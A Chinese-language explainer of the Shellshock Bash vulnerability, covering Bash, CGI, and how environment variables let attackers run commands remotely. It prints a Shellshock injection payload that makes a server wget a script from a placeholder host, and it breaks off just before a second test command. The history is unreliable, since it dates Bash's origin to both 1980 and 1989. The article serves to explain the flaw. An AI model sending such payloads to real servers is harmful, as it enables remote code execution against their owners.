 不少 Linux 发行版本连夜发布了修复版本的 Bash，在服务器领域占有不少份额的大多数 FreeBSD 和 NetBSD 已经默认关闭了自动导入函数的功能，以应对未来可能出现的漏洞。

在这个漏洞的风波逐渐平息之余，不少业内人士也在思考，它为何波及如此之广，影响如此之大。

InfoWorld 的专栏作者 Andrew C. Oliver 在一篇文章中表达了自己看法，他认为 CGI 技术的普及是个错误，正是因为 CGI 技术的不合理之处，Shellshock 才有机可乘。

CGI 技术是 Web 技术刚兴起的时候发明的，它是最早的可以创建动态网页内容的技术之一。它会把一个 HTTP 请求转化为一次 shell 调用。

而 Shellshock 的原理是利用了 Bash 在导入环境变量函数时候的漏洞，启动 Bash 的时候，它不但会导入这个函数，而且也会把函数定义后面的命令执行。在有些 CGI 脚本的设计中，数据是通过环境变量来传递的，这样就给了数据提供者利用 Shellshock 漏洞的机会。

**0.1 Bash 介绍**

Bourne Again Shell（简称 BASH）是在 GNU/Linux 上最流行的 SHELL 实现，于 1980 年诞生，经过了几十年的进化从一个简单的终端命令行解释器演变成了和 GNU 系统深度整合的多功能接口。

根据维基百科的描述：Bash，Unix shell 的一种。1989 年发布第一个正式版本，原先是计划用在 GNU 操作系统上，但能运行于大多数类 Unix 系统的操作系统之上，包括 Linux 与 Mac OS X v10.4 都将它作为默认 shell。它也被移植到 Microsoft Windows 上的 Cygwin 与 MinGW，或是可以在 MS-DOS 上使用的 DJGPP 项目。在 Novell NetWare 与 Android 上也有移植。

**0.2 CGI 技术与脚本解析**

CGI (Common Gateway Interface)，是一种基于浏览器的输入，在 Web 服务器上运行程序的方法。

CGI 脚本让浏览器与用户产生交互，例如，信息评论，表单选择，数据库查询。

作为网页设计者，通常创建客户端的 CGI 脚本，服务器端的程序用来处理用户输入，结果返回给用户。

后台处理程序不仅仅可以用 PHP、Python、Perl 等脚本来接受请求、解释执行、响应客户端，当然还可以用 Bash 脚本来解释执行用户提交的 GET 或 POST 请求。

**0.3 Bash 漏洞与远程执行**

洞利用一般分为本地利用和远程执行利用。

该漏洞爆出后，一些研究人员最初认为该漏洞只是本地漏洞，所以无法很好地利用。

随着研究的深入，研究发现其实它可以进行远程利用。2014 年 9 月 24 日 Bash 被公布存在远程代码执行漏洞。

Bash 漏洞其实是非常经典的“注入式攻击”，也就是可以向 bash 注入一段命令，从 bash1.14 到 4.3 都存在这样的漏洞。

由于 Bash 存储远程执行漏洞，所以，理论上，可以在 HTTP 请求中注入一个 Bash 命令，进行远程执行，比如：

```
() { :;}; wget http://www.XXX.com/testvul.sh

```

对于利用 Bash 脚本处理用户请求的网站，攻击者可以精心伪造数据，通过网络传到一台服务器上，直接或间接触发一个 bash 脚本，这样就可以远程执行恶意代码。

由于 Bash 是一个被广泛集成的软件，几乎所有的系统都在运行，从 Rapsberry Pis 到手机，再到数据中心的服务器以及大型机等。

由于自动导入函数的功能至少从 Bash 3.0 开始就存在了，所以这个 bug 有可能在大多数系统中存在近 20 年了。

由于 Apache 服务器中使用`mod_cgi`（不包括`mod_php`或`mod_python`）运行脚本的时候，数据是通过环境变量来传递的，这可以算是互联网领域最古老的一些技术了。

其他一些客户端也会受到影响——比如 Linux 的 DHCP 客户端——它大量运用 Bash 脚本来使修改生效，这也使黑客能通过在 DHCP 数据包中加入恶意数据来达到攻击的目的。

鉴于 Bash 是大多数 Linux 系统（以及 OSX）上默认的 shell，这个漏洞就意味着，把有害数据编入环境变量，传到服务器端，触发服务器运行 Bash 脚本，就完成了攻击（`passing an poisoned environment variable through to a server running a CGI script could trivially be compromised`）。

举个例子，HTTP 协议的头 User-Agent 通常是通过环境变量`HTTP_USER_AGENT`来传递的，这意味使用以下命令就可以测试这个漏洞了：
